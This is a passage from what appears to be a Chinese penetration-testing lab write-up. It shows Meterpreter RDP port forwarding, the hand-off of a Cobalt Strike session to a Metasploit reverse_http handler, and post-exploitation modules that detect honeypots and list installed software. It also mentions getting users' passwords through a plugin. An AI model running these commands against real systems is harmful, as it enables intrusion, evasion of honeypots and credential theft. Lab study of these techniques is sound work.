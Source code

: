 ##### 这里用的端口转发

portfwd 是meterpreter提供的一种基本的端口转发。porfwd可以反弹单个端口到本地，并且监听，使用方法如下

```java
portfwd add -l 3389 -r 192.168.11.13 -p 3389     #将192.168.11.13的3389端口转发到本地的3389端口上，这里的192.168.11.13是获取权限的主机的ip地址
```

然后我们只要访问本地的3389端口就可以连接到目标主机的3389端口了

```undefined
rdesktop 127.0.0.1:3389
```

![image-20240107144314884](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240107144314884.png)

其他用户：密码从cs插件miti就可以获得

## <4>内网渗透

### (1)把cs中的回话派生到msf中

前提是 cs已经获得了靶机的会话

kali中msf需要进行的操作

```java
msfconsole
set payload windows/meterpreter/reverse_http
set lhost 192.168.236.130
set lport 7777
exploit 
```

这里都是msf的ip和监听的端口

![image-20240104212055352](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240104212055352.png)

直接派生回话即可，然后看msf即可

![image-20240104212120119](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240104212120119.png)

### (2)msf的简单利用

判断靶机 是否属于虚拟机（检查是否进入了蜜罐）

```java
run post/windows/gather/checkvm
```

![image-20240104212412273](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240104212412273.png)

在如调用`post/windows/gather/enum_applications`模块枚举出安装在靶机上的应用程序：

![image-20240104212635472](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240104212635472.png)
